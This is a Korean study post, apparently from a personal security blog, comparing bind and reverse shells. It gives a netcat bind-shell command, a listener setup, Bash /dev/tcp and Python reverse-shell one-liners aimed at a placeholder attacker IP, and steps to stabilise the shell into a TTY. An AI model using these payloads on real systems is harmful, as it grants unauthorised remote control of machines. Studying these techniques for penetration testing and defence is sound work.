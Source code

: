 ```yaml
---
layout: post
title: "리버스 쉘과 바인드 쉘 공부"
date: 2025-09-05 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

리버스 쉘은 공격 대상이 공격자에게 연결을 시작하는 방식이고 바인드 쉘은 공격 대상에 리스너를 열어 공격자가 직접 연결하는 방식이다.

두 가지 모두 원격에서 쉘을 획득하는 방법이지만 연결을 시작하는 주체와 방화벽 우회 가능성에서 차이가 있다.

---

### 2. 바인드 쉘 (Bind Shell)

*   ***동작 원리:***
    1.  공격자는 대상 서버에 악성 코드를 실행시켜 특정 포트(예: 4444)를 열고 연결을 기다리도록 만든다. (리스너 실행)
    2.  공격자는 자신의 PC에서 대상 서버의 IP와 열린 포트로 직접 접속하여 쉘을 획득한다.
*   ***페이로드 예시 (netcat):***
    ```bash
    # 대상 서버에서 실행
    nc -lvnp 4444 -e /bin/bash
    ```
*   ***한계:***
    대상 서버의 방화벽이 외부에서 내부로 들어오는 4444번 포트 연결(Inbound)을 차단하면 공격이 실패한다. 대부분의 네트워크 환경에서 이 방식은 차단될 가능성이 높다.

---

### 3. 리버스 쉘 (Reverse Shell)

*   ***동작 원리:***
    1.  공격자는 자신의 PC에서 특정 포트(예: 4444)를 열고 연결을 기다린다. (리스너 실행)
    2.  대상 서버에서 악성 코드를 실행시켜 공격자 PC의 IP와 포트로 연결을 시도하도록 만든다.
*   ***장점:***
    방화벽은 일반적으로 내부에서 외부로 나가는 연결(Outbound)은 허용하는 경우가 많기 때문에 바인드 쉘보다 성공 확률이 훨씬 높다.

#### ***리버스 쉘 실행 3단계***

#### ***1단계: 공격자 PC에서 리스너 설정***
가장 먼저 대상 서버로부터의 연결을 받을 준비를 해야 한다. `netcat`을 이용해 특정 포트를 열고 연결을 기다리는 리스너를 실행한다.
```bash
# 4444번 포트에서 연결을 대기하며 상세 정보를 출력
nc -lvnp 4444
```
*   **-l**: 리스닝 모드로 동작한다.
*   **-v**: 상세한 정보(연결 상태 등)를 출력한다.
*   **-n**: IP 주소를 숫자로만 사용하고 DNS 조회를 하지 않는다. (속도 향상)
*   **-p**: 사용할 포트 번호를 지정한다.

#### ***2단계: 대상 서버에서 페이로드 실행***
대상 서버의 환경에 맞는 페이로드를 실행하여 공격자 PC로 연결을 시도한다. `revshells.com`과 같은 사이트를 이용하면 다양한 환경의 페이로드를 쉽게 생성할 수 있다.

*   **Bash:** `bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1`
*   **Python:** `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("[Attacker IP]",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

#### ***3단계: 쉘 안정화 (Stabilization)***
처음 획득한 쉘은 자동 완성(`Tab`), 명령어 히스토리(`↑`, `↓`), `Ctrl+C` 등이 동작하지 않는 불안정한 쉘(Dumb Shell)이다. 이를 상호작용이 가능한 완전한 TTY 쉘로 업그레이드하는 과정이 필요하다.

   ![Reverseshell](/assets/images/Reverse_1.png)

1.  ***TTY 쉘 생성:***
    `python`이나 `script` 명령어를 이용해 TTY(단말기) 환경을 생성한다.
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
2.  ***터미널 제어권 확보:***
    현재 쉘을 백그라운드로 보내고(`Ctrl+Z`) 로컬 터미널의 설정을 조정한 뒤 다시 포어그라운드로 가져와 터미널 제어 신호를 넘겨준다.
    ```bash
    # (Ctrl+Z 입력)
    stty raw -echo; fg
    # (Enter 두 번 입력)
    ```
3.  ***환경 변수 설정:***
    터미널의 종류(`TERM`)와 크기(`stty rows/cols`)를 로컬 터미널과 동일하게 맞춰주어 `clear`나 텍스트 편집기 같은 전체 화면 애플리케이션이 정상적으로 동작하도록 설정한다.

<hr class="short-rule">